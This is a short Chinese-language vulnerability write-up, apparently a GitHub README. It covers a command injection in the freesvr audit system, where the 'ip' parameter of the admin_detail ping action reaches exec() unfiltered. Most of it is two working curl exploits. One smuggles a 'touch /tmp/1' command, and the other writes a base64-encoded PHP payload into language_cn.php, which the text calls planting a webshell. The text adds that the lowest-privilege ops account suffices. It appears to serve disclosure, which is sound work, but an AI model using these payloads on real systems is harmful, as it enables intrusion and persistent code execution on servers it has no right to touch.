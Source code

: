 在`/opt/freesvr/web/htdocs/freesvr/audit/controller/c_admin_detail.class.php`文件中有如下函数

![](./image.png)
使用curl进行利用：
`curl -i -k https://192.168.32.129/admin.php?controller=admin_detail&action=ping&ip=192.168.32.128%20-c%203%20;%20touch%20/tmp/1%20%23`

通过get_request从url中获取到ip参数，而后直接拼接到命令行中，随后通过exec函数执行。访问该路径需要身份认证，但经过测试最低权限的运维用户即可利用

![](./image2.png)


也可以在php文件内植入webshell：此处在`/opt/freesvr/web/htdocs/freesvr/audit/include/language_cn.php`内写入`phpinfo();`
```shell
curl -ik https://192.168.32.129/admin.php?controller=admin_detail&action=ping&ip=192.168.32.128%20-c%203%20;%20echo%20Cjw/cGhwCnBocGluZm8oKTsKPz4=%20|%20base64%20-d%20|%20tee%20-a%20/opt/freesvr/web/htdocs/freesvr/audit/include/language_cn.php%20%23

```
 
![](image-1.png)
 
![](image-2.png)

![alt text](image-3.png)